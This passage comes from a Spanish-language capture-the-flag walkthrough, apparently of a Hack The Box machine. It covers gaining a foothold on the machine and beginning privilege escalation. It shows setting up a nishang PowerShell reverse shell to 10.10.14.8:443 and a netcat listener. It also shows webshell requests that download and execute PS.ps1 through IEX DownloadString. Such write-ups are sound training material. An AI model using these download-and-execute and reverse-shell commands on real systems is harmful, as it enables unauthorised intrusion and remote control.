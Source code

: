 ```bash
git clone https://github.com/samratashok/nishang
cd nishang
ls
cd Shells
ls
cp Invoke-PowerShellTcp.ps1 PS.ps1
vi PS.ps1
```

Como siempre le añadimos 
```bash
 Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.8 -Port 443 
```
 al final del fichero.

Nos compartimos un servidor http con python

```bash
python -m http.server 80
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Y por la webshell nos descargamos el fichero PS.ps1 
```bash
 http://10.10.10.116/upload/s4vishell.asp?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PS.ps1') 
```


Ya podemos comprobar que estamos a dentro de la maquina y que podemos ver la flag.

> Note: Si le hacemos un 
```bash
 [Environment]::Is64BitOperatingSystem 
```
 y un 
```bash
 [Environment]::Is64BitProcess 
```
, podemos ver que el process nos da False. Aqui es recommendado siempre tirar
de la powershell nativa que seria  
```bash
 http://10.10.10.116/upload/s4vishell.asp?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/PS.ps1') 
```

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
systeminfo
whoami /priv
```
